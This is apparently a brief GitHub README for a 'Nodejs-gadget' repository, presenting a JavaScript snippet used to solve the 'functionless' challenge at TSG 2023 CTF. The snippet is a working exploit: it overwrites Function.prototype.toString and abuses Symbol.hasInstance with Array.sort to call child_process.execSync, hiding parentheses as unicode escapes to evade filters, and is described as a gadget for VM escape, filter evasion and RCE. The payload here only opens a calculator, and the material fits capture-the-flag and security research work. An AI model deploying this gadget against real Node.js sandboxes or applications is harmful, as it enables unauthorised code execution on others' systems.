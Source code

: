 # Nodejs-gadget
Nodejs gadget for escaping VM, fooling syntax parser, filter evasion, RCE, ....

## Used to solve `functionless` in TSG 2023
```js
toString.constructor.prototype.toString=toString.constructor.prototype.call;
a = ["process.mainModule.require\u0028'child_process'\u0029.execSync\u0028'calc.exe'\u0029","a"];
toString.constructor instanceof {[Symbol.hasInstance]:a.sort, __proto__: a};
```
